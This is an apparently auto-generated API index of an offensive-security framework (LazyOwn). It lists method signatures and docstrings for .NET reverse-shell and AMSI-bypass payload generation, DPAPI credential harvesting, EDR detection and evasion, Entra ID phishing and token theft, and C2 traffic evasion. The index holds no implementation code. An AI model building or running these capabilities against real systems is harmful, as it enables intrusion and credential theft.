Returns:
    True if DCSync was successful.*
- `_load_config` (line 827) `def _load_config(self)` - *Load payload configuration.

Returns:
    Configuration dict.*
- `_domain_to_dn` (line 838) `def _domain_to_dn(self, domain)` - *Convert FQDN to LDAP distinguished name.

Args:
    domain: FQDN domain name.

Returns:
    Base DN string.*
- `_save_credential` (line 849) `def _save_credential(self, username, secret, secret_type, source)` - *Save a discovered credential to the sessions directory.

Loot must stay operator-readable for the engagement, so it is kept
in clear text with owner-only permissions (directory 0700, file
0600) and never written to logs. Callers must scrub ``secret``
from any returned strings.

Args:
    username: Username.
    secret: Password or hash.
    secret_type: Type of secret.
    source: Where the credential came from.*
- `_save_session` (line 880) `def _save_session(self, session_id, target, method, user)` - *Save session metadata.

Args:
    session_id: Session identifier.
    target: Target IP/hostname.
    method: Access method used.
    user: Username used.*
- `_save_dominance_report` (line 900) `def _save_dominance_report(self)` - *Save the dominance operation report.*

#### `dotnet_payload.py`
**Path:** `modules/dotnet_payload.py`
**File Doc:** *.NET/C# payload generation — execute-assembly, inline-assembly, Roslyn compilation.  Provides DotNetPayloadFactory for generating C# payloads including reverse shells, process injection shells, token manipulation tools, and AMSI/ETW bypass assemblies. Supports both execute-assembly (compile to DLL/EXE via csc/dotnet) and inline-assembly (embed C# source for reflective loading) delivery patterns.  All templates derive target connection parameters from payload.json configuration.*

**Classes:**
- `DotNetPayloadConfig` (line 293) `class DotNetPayloadConfig` - *Configuration for a .NET payload compilation.

Attributes:
    template_name: Key in CSHARP_TEMPLATES.
    target: Compilation target (exe, dll, netmodule).
    platform: CPU architecture (x86, x64, AnyCPU).
    framework: .NET framework version or '' for modern dotnet.
    lhost: Listener IP for reverse connections.
    lport: Listener port for reverse connections.
    extra_params: Additional template substitution values.*
- `DotNetPayloadFactory` (line 315) `class DotNetPayloadFactory` - *Generate, compile, and format .NET/C# payloads.

Detects available compilers (csc, mcs, dotnet) and selects the best
toolchain. Falls back to source-only output if no compiler is found.

Attributes:
    compiler: Detected compiler path or None.
    compiler_type: One of 'csc', 'mcs', 'dotnet', None.
    output_dir: Directory for compiled payloads.*

**Methods:**
- `__init__` (line 327) `def __init__(self, output_dir)`
- `_detect_compiler` (line 333) `def _detect_compiler()`
- `list_templates` (line 364) `def list_templates()` - *Return available .NET payload template names.*
- `_resolve_template` (line 368) `def _resolve_template(self, config)`
- `generate_source` (line 389) `def generate_source(self, config)` - *Generate C# source code from a template.

Args:
    config: Payload configuration with template and connection params.

Returns:
    Complete C# source code as a string.

Raises:
    ValueError: If the template name is unknown.*
- `compile` (line 403) `def compile(self, config, source_code)` - *Compile C# source to an assembly.

Args:
    config: Compilation target and parameters.
    source_code: Pre-generated source code (generated if None).

Returns:
    Path to the compiled binary, or None if compilation fails.*
- `generate` (line 454) `def generate(self, config)` - *Generate a .NET payload — source code plus optional binary.

Args:
    config: Full payload configuration.

Returns:
    Dict with keys: source, binary_path, binary_b64, format.*
- `generate_powershell_reflective` (line 481) `def generate_powershell_reflective(self, config)` - *Generate a PowerShell script that reflectively loads a .NET assembly.

Args:
    config: Payload configuration for the embedded assembly.

Returns:
    PowerShell script as a string.*
- `generate_inline_assembly` (line 500) `def generate_inline_assembly(self, config)` - *Generate self-decompiling inline .NET assembly load command.

Decodes base64-encoded C# source, compiles via Add-Type, and executes
in a single PowerShell command line.

Args:
    config: Payload configuration.

Returns:
    Single-line PowerShell command.*
- `to_format` (line 520) `def to_format(self, data, fmt)` - *Convert a payload result to the requested output format.

Args:
    data: Result dict from generate().
    fmt: Output format key from OUTPUT_FORMATS.

Returns:
    Payload in the requested format.*

#### `dpapi_harvester.py`
**Path:** `modules/dpapi_harvester.py`
**File Doc:** *DPAPI credential decryption and harvesting engine.  Supports offline decryption of: - Master keys (Preferred file, local machine keys, domain backup keys) - Credential files (Credential Manager, Windows Vault) - Browser data (Chrome, Edge — cookies, passwords, payment methods) - Wi-Fi profiles and WPA2 keys - RDP saved credentials - DPAPI-protected blobs with known entropy  Uses Windows DPAPI via Python ctypes (local) or Impacket (remote). Falls back to mimikatz-style masterkey extraction when available.*

**Classes:**
- `DPAPICredential` (line 44) `class DPAPICredential`
- `DPAPIMasterKey` (line 54) `class DPAPIMasterKey`
- `DPAPIHarvester` (line 63) `class DPAPIHarvester` - *Harvest and decrypt DPAPI-protected credentials.

Supports:
- Master key extraction from local machine
- Master key decryption via domain backup key
- Credential manager vault decryption
- Browser (Chrome/Edge) credential extraction
- Wi-Fi profile recovery
- RDP credential cache parsing

Args:
    sessions_dir: Directory for output artifacts.
    masterkey_path: Custom masterkey path to override default.*
- `DATA_BLOB` (line 160) `class DATA_BLOB(Structure)`

**Methods:**
- `__init__` (line 79) `def __init__(self, sessions_dir, masterkey_path)`
- `harvest_all` (line 90) `def harvest_all(self)` - *Run all harvesters and return all discovered credentials.

Returns:
    List of decrypted DPAPICredential objects.*
- `_harvest_master_keys` (line 105) `def _harvest_master_keys(self)`
- `_harvest_credential_manager` (line 120) `def _harvest_credential_manager(self)`
- `_harvest_chrome` (line 143) `def _harvest_chrome(self)`
- `_harvest_chrome_offline` (line 188) `def _harvest_chrome_offline(self)`
- `_harvest_edge` (line 198) `def _harvest_edge(self)`
- `_harvest_wifi` (line 210) `def _harvest_wifi(self)`
- `_harvest_rdp` (line 250) `def _harvest_rdp(self)`
- `_harvest_windows_vault` (line 262) `def _harvest_windows_vault(self)`
- `_crack_login_data` (line 286) `def _crack_login_data(self, login_db_path, key, source)`
- `_crack_cookies` (line 320) `def _crack_cookies(self, cookies_path, key, source)`
- `_extract_sid_from_file` (line 355) `def _extract_sid_from_file(filepath)`
- `export_credentials` (line 367) `def export_credentials(self)` - *Export all harvested credentials to a text file.

Returns:
    Path to the exported file.*
- `masterkey_report` (line 386) `def masterkey_report(self)` - *Generate a master key report.

Returns:
    Path to the report file.*

#### `edr_detector.py`
**Path:** `modules/edr_detector.py`
**File Doc:** *EDR/AV Detection and Evasion Profiling Engine.  Detects endpoint security products (AV, EDR, XDR) on Windows targets through: - WMI queries (AntiVirusProduct, AntiSpywareProduct) - Service enumeration (running security services) - Process enumeration (security agent processes) - Registry inspection (installed security products) - Driver enumeration (kernel security drivers) - File system checks (known installation paths) - DLL injection detection (hooked modules)  Supports remote detection via WinRM/SMB/WMI and local detection from an implant. Generates an evasion profile recommending bypass techniques based on detected defenses.*

**Classes:**
- `EDRFinding` (line 174) `class EDRFinding`
- `EDRProfile` (line 182) `class EDRProfile`
- `EDRDetector` (line 191) `class EDRDetector` - *Detect antivirus and EDR products on Windows targets.

Combines multiple detection sources to fingerprint security products:
WMI, services, processes, registry, drivers, file paths.

Can operate in local mode (running on the target) or generate
commands for remote execution via SMB/WinRM/WMI.*

**Methods:**
- `detect_local` (line 202) `def detect_local()` - *Detect EDR products on the local Windows machine.

Returns:
    EDRProfile with detected products and recommendations.*
- `detect_remote_commands` (line 221) `def detect_remote_commands(remote_type)` - *Generate commands for remote EDR detection.

Args:
    remote_type: Transport method (wmi, smb, winrm, ssh).

Returns:
    List of dicts with 'name' and 'command' keys.*
- `_local_processes` (line 292) `def _local_processes()`
- `_local_services` (line 305) `def _local_services()`
- `_local_drivers` (line 322) `def _local_drivers()`
- `_match_signatures` (line 335) `def _match_signatures(profile)`
- `_generate_recommendations` (line 370) `def _generate_recommendations(profile)`
- `_severity` (line 428) `def _severity(profile)`
- `generate_edr_check_script` (line 440) `def generate_edr_check_script(remote_type)` - *Generate a PowerShell script for comprehensive EDR detection.

Args:
    remote_type: Execution method hint for the script comments.

Returns:
    Complete PowerShell script as a string.*

#### `engage_summary.py`
**Path:** `modules/engage_summary.py`
**File Doc:** *Rich per-step engagement summaries from evidence and sessions artefacts.  Builds the operator-facing detail LAZY shows in its plan tab: what each step found (OS, ports, populated fields, facts, candidates, payload), what was skipped and why, and what to run next via the unified recommendation engine (``cli/recommendation.py`` — the single source of truth for suggestions). Full step outputs come from the evidence vault, never from truncated tails. Reports persist under ``sessions/engagements/`` for later queries by operators or agents.*

**Functions:**
- `marker_lines` (line 35) `def marker_lines(text, limit)` - *Extract real log lines (``[+] ... [+]``) dropping panels and bars.*
- `full_output` (line 51) `def full_output(step, sessions_dir)` - *Return the full step output from evidence, falling back to the tail.*
- `held_scan_ports` (line 64) `def held_scan_ports(target, sessions_dir)` - *Parse held scan XMLs for open ports.

Returns (ports, source_names). Ports look like ``4000/remoteanything``.*
- `detail_for` (line 98) `def detail_for(tool, text, target, sessions_dir)` - *Extract the key facts from one step output for the summary.*
- `next_actions` (line 150) `def next_actions(target, sessions_dir, limit)` - *Rank next actions via the unified recommendation engine.

Degrades to [] when the engine is unavailable — callers always work.*
- `render_text` (line 175) `def render_text(engagement_id, target, shell, steps, sessions_dir)` - *Render the console summary with per-step detail lines.*
- `render_markdown` (line 210) `def render_markdown(engagement_id, target, shell, steps, next_list, sessions_dir)` - *Render the persisted per-engagement report.*
- `write_report` (line 247) `def write_report(engagement_id, target, shell, steps, sessions_dir)` - *Persist the engagement report; return its relative path.*

#### `engagement_hooks.py`
**Path:** `modules/engagement_hooks.py`
**File Doc:** *modules/engagement_hooks.py — Engagement narration and notification fabric ==========================================================================  Single bridge layer shared by skills/autonomous_daemon.py (EngageOrchestrator) and lazyc2.py (beacon registration). Provides:  - EngagementNarrator   : human-readable journal at sessions/engagement.log - INotificationSink    : abstract sink contract (SRP/ISP) - CollabNotificationSink     : bridges to modules.collab_bp.publish_event - TelegramNotificationSink   : optional, gated by payload.enable_telegram_c2 - DiscordNotificationSink    : optional, gated by payload.enable_discord_c2 - StreamEventSink            : appends to sessions/autonomous_events.jsonl - NotificationBroadcaster    : fan-out to every registered sink - publish_shell_obtained(...): single entry point for lazyc2.py beacon code  SOLID: S — every class owns one concern. O — new sinks (Slack, syslog, SIEM) plug in via INotificationSink without touching the broadcaster or the narrator. L — every sink honours the INotificationSink contract; broadcaster never type-checks. I — small role-specific interfaces; the narrator does not depend on sink delivery details. D — the broadcaster depends on INotificationSink, not on concrete classes; callers inject sinks at construction time.  Security: - No dynamic imports of arbitrary modules. No eval/exec. - Outbound HTTP uses urllib with explicit URLs from payload.json keys only.*

**Classes:**
- `EngagementEvent` (line 101) `class EngagementEvent` - *Value object describing a single engagement-narrator event.

Attributes:
    event_id: Short hex identifier unique within a daemon run.
    ts: ISO-8601 UTC timestamp.
    kind: Semantic event type (PHASE, STEP, FINDING, SHELL, APPROVAL,
          SWITCH_TOOL, ERROR, INFO).
    target: Primary target IP or hostname for the event.
    message: Human-readable narrative line for engagement.log.
    payload: Structured machine-readable payload for the audit JSONL.
    severity: One of info, warning, critical.*
- `INotificationSink` (line 150) `class INotificationSink(ABC)` - *Contract for downstream delivery channels (collab, telegram, etc.).*
- `StreamEventSink` (line 167) `class StreamEventSink(INotificationSink)` - *Append every event to sessions/autonomous_events.jsonl for the daemon stream.

This sink is the canonical record consumed by lazyown_autonomous_events
so engage events join the existing autonomous stream rather than living
in a parallel file.*
- `CollabNotificationSink` (line 204) `class CollabNotificationSink(INotificationSink)` - *Bridges engagement events to modules.collab_bp.publish_event.

Teammates connected to the C2 dashboard see every narrated event in
real time without any extra wiring. The import is lazy so unit tests
that do not bring up Flask still pass.*
- `_OutboundHTTPSink` (line 242) `class _OutboundHTTPSink(INotificationSink)` - *Base class for HTTPS-based sinks (Telegram/Discord/webhook).

Subclasses override `_build_request(event)` to return (url, body_bytes,
headers) or None when delivery should be skipped (missing config).*
- `TelegramNotificationSink` (line 278) `class TelegramNotificationSink(_OutboundHTTPSink)` - *Send a notification to a Telegram chat via the Bot API.

Required payload.json keys:
  enable_telegram_c2: truthy flag to enable delivery
  telegram_token   : Bot API token
  telegram_chat_id : numeric chat id (or @channel)*
- `DiscordNotificationSink` (line 311) `class DiscordNotificationSink(_OutboundHTTPSink)` - *Send a notification to a Discord channel via webhook.

Required payload.json keys:
  enable_discord_c2 : truthy flag to enable delivery
  discord_webhook   : full webhook URL*
- `NotificationBroadcaster` (line 336) `class NotificationBroadcaster` - *Fan-out events to every registered sink.

Construction:
    broadcaster = NotificationBroadcaster.default()

Custom sinks (or test doubles):
    broadcaster = NotificationBroadcaster([StreamEventSink(), my_sink])

deliver(event) returns the list of sink names that accepted the event.
No exception escapes; sink failures are silent at info level.*
- `EngagementNarrator` (line 382) `class EngagementNarrator` - *Writes human-readable narration to sessions/engagement.log and an
audit JSONL trail, then fans the event out through the broadcaster.

The narrator does not know about delivery details; it owns formatting
and persistence only.*

**Functions:**
- `_safe_str` (line 78) `def _safe_str(value, maxlen)` - *Coerce any value to a length-bounded printable string.*
- `_load_payload` (line 88) `def _load_payload()` - *Return payload.json as a dict, empty on any error.

The engagement layer never raises on payload errors — it simply falls
back to no-op behaviour for the sinks that depend on the missing key.*
- `_load_seen_beacons` (line 444) `def _load_seen_beacons()` - *Return the persisted set of beacons we have already narrated.*
- `_save_seen_beacons` (line 455) `def _save_seen_beacons(seen)` - *Persist the seen-beacons map atomically.*
- `_sanitize_client_id` (line 466) `def _sanitize_client_id(client_id)` - *Restrict client_id to alphanumerics, dash, underscore (<=64 chars).

Dots are disallowed so a malicious beacon cannot smuggle `..` into any
file path derived from the id.*
- `get_default_narrator` (line 482) `def get_default_narrator()` - *Return the process-wide default narrator (lazy singleton).*
- `publish_shell_obtained` (line 491) `def publish_shell_obtained(client_id, primary_ip, hostname, user, platform, narrator)` - *Single entry point called by lazyc2.py on every beacon check-in.

Idempotent: only narrates the first time a client_id is seen. Subsequent
calls for the same beacon return None without emitting any event so the
operator log stays clean.

Args:
    client_id: Beacon client identifier from the C2 registration.
    primary_ip: First IP from the beacon's ips field.
    hostname: Hostname reported by the beacon.
    user: Username under which the beacon is running.
    platform: Beacon's reported OS / platform string.
    narrator: Optional injected narrator (for tests).

Returns:
    EngagementEvent for the first sighting, None for repeats.*
- `append_approval_record` (line 564) `def append_approval_record(record)` - *Append one approval-pending record to sessions/engagement_approvals.jsonl.*
- `list_pending_approvals` (line 575) `def list_pending_approvals()` - *Return every approval record whose status is still 'pending'.*
- `resolve_approval` (line 601) `def resolve_approval(approval_id, decision, operator)` - *Append a resolution record for the given approval_id.

Args:
    approval_id: Identifier returned when the approval was created.
    decision: 'approved' or 'denied'.
    operator: Optional operator handle for audit.

Returns:
    True when the resolution was persisted; False on malformed input.*
- `is_valid_target` (line 626) `def is_valid_target(value)` - *Validate that value is a dotted-quad IPv4 or a safe hostname token.*

**Methods:**
- `now` (line 124) `def now(cls, kind, target, message, payload, severity)` - *Construct an event with a fresh id and current UTC timestamp.*
- `render_line` (line 143) `def render_line(self)` - *Return a single-line operator-facing log entry.*
- `name` (line 155) `def name(self)` - *Stable channel identifier used for diagnostic logging.*
- `deliver` (line 159) `def deliver(self, event)` - *Deliver one event. Return True when accepted.

Implementations must never raise. A delivery failure is reported by
returning False and logging the cause at debug level.*
- `name` (line 178) `def name(self)`
- `deliver` (line 181) `def deliver(self, event)`
- `name` (line 213) `def name(self)`
- `deliver` (line 216) `def deliver(self, event)`
- `name` (line 252) `def name(self)`
- `_build_request` (line 255) `def _build_request(self, event)`
- `deliver` (line 258) `def deliver(self, event)`
- `name` (line 288) `def name(self)`
- `_build_request` (line 291) `def _build_request(self, event)`
- `name` (line 320) `def name(self)`
- `_build_request` (line 323) `def _build_request(self, event)`
- `__init__` (line 349) `def __init__(self, sinks)`
- `default` (line 354) `def default(cls)` - *Return a broadcaster with the standard four-sink configuration.*
- `add` (line 365) `def add(self, sink)` - *Register an additional sink at runtime.*
- `deliver` (line 370) `def deliver(self, event)` - *Push event to all sinks. Return the names of accepting sinks.*
- `__init__` (line 393) `def __init__(self, broadcaster)`
- `narrate` (line 400) `def narrate(self, kind, target, message, payload, severity)` - *Write one line + audit record and dispatch to every sink.

Returns the constructed EngagementEvent so callers can correlate.*
- `_persist` (line 417) `def _persist(self, event)`

#### `enrich.py`
**Path:** `modules/enrich.py`
**File Doc:** *Async target enrichment with scan dedup (LAZY enrich parity).  LAZY ``enrich/enrich.go`` runs DNS + HTTP jobs off the hot path with a 4-worker pool, 1024 queue and 5-minute cooldown. This port provides the same shape in stdlib Python: a small thread-pool engine plus :func:`should_rescan`, which stops the loop re-running nmap when ``sessions/scan_<target>.nmap*`` already holds fresh results.*

**Classes:**
- `EnrichResult` (line 30) `class EnrichResult` - *One enrichment outcome for a target.*
- `EnrichEngine` (line 100) `class EnrichEngine` - *Bounded async enrichment pool (LAZY Engine parity).*

**Functions:**
- `scan_files_for` (line 40) `def scan_files_for(sessions_dir, target)` - *Return existing scan artefacts for a target.*
- `should_rescan` (line 57) `def should_rescan(sessions_dir, target, fresh_sec)` - *Return True when no fresh scan artefact exists for target.*
- `resolve_dns` (line 73) `def resolve_dns(target, timeout)` - *Resolve A/AAAA for a target with a bounded timeout.*
- `fetch_http` (line 86) `def fetch_http(target, timeout)` - *Fetch HTTP headers for a target without following credentials.*
- `shared_engine` (line 137) `def shared_engine()` - *Return the process-wide enrichment engine (LAZY parity).

One pool serves both flows; per-target cooldown dedups submissions
so enrichment never blocks the hot path.*

**Methods:**
- `__init__` (line 103) `def __init__(self, max_workers)` - *Create the pool and cooldown index.*
- `submit` (line 108) `def submit(self, target)` - *Queue DNS+HTTP enrichment unless inside cooldown.*
- `_run` (line 121) `def _run(self, target)` - *Execute DNS then HTTP enrichment for one target.*
- `shutdown` (line 128) `def shutdown(self, wait)` - *Shut the pool down without blocking the loop by default.*

#### `entra_id_attacks.py`
**Path:** `modules/entra_id_attacks.py`
**File Doc:** *Azure AD / Entra ID attack module — Graph API abuse, OAuth consent grants, device code phishing.  Provides attack primitives against Microsoft Entra ID (formerly Azure AD): OAuth application consent grant attacks, device code phishing, service principal credential theft, managed identity abuse, and Entra Connect synchronization exploitation.  Requires requests and msal libraries for Graph API operations.*

**Classes:**
- `EntraIDConfig` (line 57) `class EntraIDConfig` - *Configuration for Entra ID attack operations.

Attributes:
    tenant_id: Azure tenant ID (or 'common', 'organizations', 'consumers').
    client_id: Application registration client ID.
    client_secret: Application client secret.
    username: Target user principal name.
    password: Target user password.
    refresh_token: OAuth refresh token (if already obtained).
    access_token: Bearer token for Graph API.
    graph_api_base: Microsoft Graph API endpoint.*
- `EntraIDAttackEngine` (line 81) `class EntraIDAttackEngine` - *Execute Entra ID attacks against Azure AD / Microsoft 365 tenants.

Implements OAuth consent grant, device code phishing, service principal
credential abuse, and managed identity escalation paths.

Attributes:
    config: EntraIDConfig with tenant and authentication details.
    session: Requests session with bearer token.*

**Methods:**
- `__init__` (line 92) `def __init__(self, config)`
- `device_code_phish` (line 96) `def device_code_phish(self, scope)` - *Initiate a device code phishing flow.

Generates a device code and user code for the target tenant.
The user authenticates at https://microsoft.com/devicelogin.

Args:
    scope: OAuth scope to request.

Returns:
    Dict with device_code, user_code, verification_uri, and polling info.*
- `poll_device_code` (line 129) `def poll_device_code(self, device_code, interval, timeout)` - *Poll for device code completion to retrieve tokens.

Args:
    device_code: Device code from device_code_phish().
    interval: Polling interval in seconds.
    timeout: Maximum polling time in seconds.

Returns:
    Dict with access_token, refresh_token, id_token, or error.*
- `oauth_consent_grant` (line 166) `def oauth_consent_grant(self, redirect_uri)` - *Generate an OAuth consent grant phishing URL.

Creates an application consent link that grants the attacker's
application permissions to the tenant when approved by a user.

Args:
    redirect_uri: OAuth redirect URI.

Returns:
    Dict with consent_url and required permissions.*
- `service_principal_credential_theft` (line 203) `def service_principal_credential_theft(self)` - *Plan service principal credential theft via app registration abuse.

If the attacker has Application.ReadWrite.All or Application Administrator
role, they can add credentials (certificates/secrets) to any app registration
and impersonate it.

Returns:
    Dict with attack steps and Graph API commands.*
- `managed_identity_abuse` (line 235) `def managed_identity_abuse(self, resource)` - *Exploit Azure managed identities from compromised VMs/containers.

Managed identities provide automatic tokens to Azure resources.
IMDS (169.254.169.254) exposes the identity endpoint.

Args:
    resource: Token audience (resource).

Returns:
    Dict with IMDS commands and token extraction.*
- `entra_connect_sync_abuse` (line 266) `def entra_connect_sync_abuse(self)` - *Exploit Entra Connect Sync for on-prem to cloud privilege escalation.

The Entra Connect Sync service account has DCSync privileges on
the on-prem AD and write access to Entra ID.

Returns:
    Dict with attack path and exploitation commands.*
- `conditional_access_bypass` (line 307) `def conditional_access_bypass(self)` - *Techniques for bypassing Entra ID Conditional Access policies.

Returns:
    Dict with bypass techniques and their prerequisites.*
- `enumerate_tenant` (line 345) `def enumerate_tenant(self)` - *Enumerate tenant information via Graph API.

Returns:
    Dict with tenant details, domains, users, and apps.*
- `summary` (line 368) `def summary(self)`

#### `estorides_fusion.py`
**Path:** `modules/estorides_fusion.py`
**File Doc:** *Estorides intel fusion: merge OSINT graph entities into campaign graphs.  Reads an estorides export (``estorides_lazyown.json`` preferred, raw ``estorides_graph.json`` accepted) and merges it into the intel and attack-surface graphs. When an IP or value already exists as a node, the two records fuse: sources union plus ``estorides``, attributes merge, edges re-anchor. New entities arrive tagged and capped so the graphs stay readable.  Provenance stays explicit: every fused node carries ``estorides`` in its sources and estorides edges keep their ``estorides:`` evidence prefix.*

**Functions:**
- `estorides_checkout` (line 48) `def estorides_checkout()` - *Locate the estorides working copy.

Resolution order, no hardcoded user paths: the ESTORIDES_DIR
environment override first, then the lazyaddon install directory.*
- `find_export` (line 68) `def find_export(sessions_dir)` - *Find an estorides export, preferring the LazyOwn vocabulary file.*
- `run_export` (line 84) `def run_export(sessions_dir, cli_path, timeout_sec)` - *Run ``estorides_cli.py graph --export lazyown`` into sessions/.

Never raises: failures return None and the caller keeps working with
whatever export already exists.*
- `_norm` (line 123) `def _norm(value)` - *Normalize a fusion key (case/whitespace-insensitive).*
- `load_export` (line 128) `def load_export(path)` - *Load an export in either vocabulary into nodes/edges lists.*
- `_from_raw` (line 142) `def _from_raw(document)` - *Translate a raw estorides export_json document to LazyOwn vocabulary.*
- `community_for` (line 180) `def community_for(kind, value)` - *Assign a campaign community to a fused entity.*
- `merge_estorides` (line 187) `def merge_estorides(nodes, edges, est, cap)` - *Fuse estorides entities into graph nodes/edges in place.

Matching (kind, value) fuses records; new entities arrive with
``estorides`` provenance until ``cap``. Returns merge statistics.*
- `find_lan_bundle` (line 268) `def find_lan_bundle(sessions_dir)` - *Find a LAN bundle deliverable, preferring LazyOwn vocabulary.*
- `load_lan_bundle` (line 288) `def load_lan_bundle(path)` - *Load a LAN bundle file into nodes/edges lists. Never raises.*
- `split_lan_targets` (line 323) `def split_lan_targets(est)` - *Split a LAN payload into intel (all) and attack (hosts) views.

The intel graph keeps everything known. The attack graph keeps only
host nodes plus host-anchored edges so auto_loop queues actionable
targets without MAC/hostname noise.*

#### `estorides_importer.py`
**Path:** `modules/estorides_importer.py`
**File Doc:** *estorides_importer ================== Bidirectional bridge between Estorides (passive OSINT) and LazyOwn (active pentest).  Feeds LazyOwn host/domain intelligence into Estorides for passive discovery and imports Estorides-discovered entities back into LazyOwn's database, scope, and world model — creating a continuous feedback loop.  Data flow:  LazyOwn (world_model, db_hosts, scope) │ ▼  estorides_seed: extract IPs/domains → estorides discover Estorides (cases, STIX, graph, fusion) │ ▼  estorides_import: parse entities → LazyOwn DB + scope LazyOwn (enriched: new hosts, expanded scope) │ ▼  lazynmap / nuclei on new targets ...  Architecture:  EstoridesSeedExtractor   - pull LazyOwn surfaces into estorides seeds EstoridesCaseReader      - read estorides_cases.sqlite EstoridesStixParser      - parse STIX 2.1 bundles EstoridesImporter        - import entities into LazyOwn DB/scope FeedbackLoop             - orchestrate the bidirectional cycle*

**Classes:**
- `EstoridesEntity` (line 84) `class EstoridesEntity` - *A single entity discovered by Estorides.*
- `ImportResult` (line 96) `class ImportResult` - *Result of an estorides import operation.*
- `SeedResult` (line 128) `class SeedResult` - *Result of seeding estorides with LazyOwn hosts.*
- `EstoridesCaseReader` (line 385) `class EstoridesCaseReader` - *Read entities from the estorides case store (SQLite).*
- `EstoridesStixParser` (line 495) `class EstoridesStixParser` - *Parse STIX 2.1 bundles produced by estorides.*
- `LanBundleReader` (line 622) `class LanBundleReader` - *Read Estorides LAN output deliverables into entities.

Consumes ``lan_inventory.json`` (preferred, device-grounded),
``lan_lazyown.json`` / ``lan_graph.json`` (graph vocabulary), and
``lan_stix.json`` (STIX bundle). Output feeds the same import path
as OSINT entities so LAN hosts flow into the DB, scope, intel
graph, attack graph, and auto_loop queue.*
- `EstoridesToLazyOwnBridge` (line 700) `class EstoridesToLazyOwnBridge` - *Import estorides-discovered entities into LazyOwn's database and scope.*
- `FeedbackLoop` (line 881) `class FeedbackLoop` - *Orchestrate the bidirectional estorides <-> LazyOwn feedback cycle.

Each iteration:
  1. Extract seeds from LazyOwn (world model, scope, DB, hosts files)
  2. Feed each seed into estorides discover for passive OSINT
  3. Parse estorides output (cases + STIX)
  4. Import new entities back into LazyOwn DB + scope
  5. New entities become seeds for the next iteration*

**Functions:**
- `extract_seeds_from_world_model` (line 143) `def extract_seeds_from_world_model(world_model_path)` - *Extract IPs and domains from world_model.json as estorides seeds.

Returns list of (type, value) tuples suitable for estorides discover.*
- `extract_seeds_from_hosts_file` (line 175) `def extract_seeds_from_hosts_file(path)` - *Extract IPs/domains from hostsdiscovery.txt or similar.

Returns list of (type, value) tuples.*
- `extract_seeds_from_db` (line 203) `def extract_seeds_from_db(db_path)` - *Extract hosts from LazyOwn database.

Returns list of (type, value) tuples.*
- `extract_seeds_from_scope` (line 242) `def extract_seeds_from_scope(scope_entries)` - *Extract scoped IPs/domains from payload.json scope list.

Returns list of (type, value) tuples.*
- `run_estorides_discover` (line 272) `def run_estorides_discover(seed_type, seed_value, max_depth, max_steps, out_json, timeout)` - *Run estorides discover on a single seed.

Returns the surface JSON dict on success, None on failure.*
- `run_estorides_run` (line 332) `def run_estorides_run(query, out_json, timeout)` - *Run estorides run (single fan-out) on a query.

Returns the result JSON dict on success, None on failure.*
- `find_lan_bundle_files` (line 586) `def find_lan_bundle_files(lan_dir, sessions_dir)` - *Locate LAN bundle deliverables. Never raises.*
- `ensure_directories` (line 694) `def ensure_directories()` - *Ensure sessions/ directories exist.*
- `export_combined_graph` (line 1027) `def export_combined_graph(output_path)` - *Export the combined (Estorides + LazyOwn) graph as GraphML.*

**Methods:**
- `success` (line 110) `def success(self)`
- `to_dict` (line 113) `def to_dict(self)`
- `new_assets` (line 139) `def new_assets(self)`
- `__init__` (line 388) `def __init__(self, db_path)`
- `available` (line 393) `def available(self)`
- `_ensure_conn` (line 396) `def _ensure_conn(self)`
- `list_cases` (line 402) `def list_cases(self, limit)`
- `get_entities` (line 414) `def get_entities(self, case_id, entity_types, limit)` - *Fetch entities from the case store.

If case_id is None, fetches from all cases.*
- `get_host_entities` (line 469) `def get_host_entities(self, case_id)` - *Get entities of host-related types (ipv4, ipv6, domain, url, asn).*
- `get_all_entities` (line 473) `def get_all_entities(self, case_id)`
- `stats` (line 476) `def stats(self)`
- `close` (line 489) `def close(self)`
- `__init__` (line 511) `def __init__(self, stix_path)`
- `available` (line 515) `def available(self)`
- `parse` (line 518) `def parse(self)` - *Parse a STIX 2.1 bundle into EstoridesEntity objects.*
- `parse_by_type` (line 552) `def parse_by_type(self, entity_types)` - *Parse STIX and group values by entity type.*
- `_extract_value` (line 563) `def _extract_value(obj, stix_type)`
- `__init__` (line 632) `def __init__(self, lan_dir)`
- `available` (line 636) `def available(self)`
- `read_devices` (line 639) `def read_devices(self)` - *Return raw device dicts from the inventory file.*
- `parse` (line 652) `def parse(self)` - *Parse LAN devices into entities (host, mac, domain).*
- `attack_targets` (line 683) `def attack_targets(self)` - *IPs actionable for the attack graph and auto_loop queue.*
- `__init__` (line 703) `def __init__(self, db_path, config_path)`
- `import_entities` (line 711) `def import_entities(self, entities, add_to_scope, add_to_db)` - *Import entities into LazyOwn DB and optionally scope.

Args:
    entities: Entities to import.
    add_to_scope: If True, add new IPs/domains to payload.json scope.
    add_to_db: If True, add entities to lazyown.db hosts table.

Returns:
    ImportResult with counts.*
- `_import_to_db` (line 755) `def _import_to_db(self, imports, result)`
- `_import_to_scope` (line 801) `def _import_to_scope(self, imports, result)`
- `get_combined_surface` (line 834) `def get_combined_surface(self)` - *Get the combined attack surface from LazyOwn DB + scope.*
- `__init__` (line 892) `def __init__(self, max_iterations, max_depth, max_steps, timeout)`
- `run` (line 908) `def run(self, seed_methods)` - *Run the feedback loop.

Args:
    seed_methods: Which sources to extract seeds from.
        Options: 'world_model', 'hosts_file', 'db', 'scope', 'all'.
        Default: ['world_model', 'hosts_file']

Returns:
    Dict with iteration summaries and final surface state.*
- `_gather_seeds` (line 1001) `def _gather_seeds(self, methods, seen)` - *Gather seeds from specified sources, filtering already-seen.*

#### `evasion_engine.py`
**Path:** `modules/evasion_engine.py`
**File Doc:** *Advanced Evasion Engine for LazyOwn C2 operations.  Provides dynamic C2 profile generation, traffic morphing, JA3/JA4 fingerprint randomization, domain fronting, and certificate rotation.  All profile data is derived from payload.json configuration or generated cryptographically at runtime — no hardcoded values.*

**Classes:**
- `TrafficMorphConfig` (line 25) `class TrafficMorphConfig`
- `MalleableProfile` (line 37) `class MalleableProfile`
- `EvasionEngine` (line 52) `class EvasionEngine` - *Generates and manages dynamic C2 evasion profiles.

Attributes:
    config: Reference to the active payload.json configuration.
    sessions_dir: Directory for persisting evasion profiles.*

**Methods:**
- `__init__` (line 130) `def __init__(self, config)`
- `set_config` (line 136) `def set_config(self, config)`
- `_random_chrome_version` (line 139) `def _random_chrome_version(self)`
- `_random_firefox_version` (line 142) `def _random_firefox_version(self)`
- `_random_safari_version` (line 145) `def _random_safari_version(self)`
- `_generate_ja4_hash` (line 148) `def _generate_ja4_hash(self)`
- `_generate_user_agent` (line 162) `def _generate_user_agent(self, os_family)`
- `_generate_headers` (line 180) `def _generate_headers(self, user_agent)`
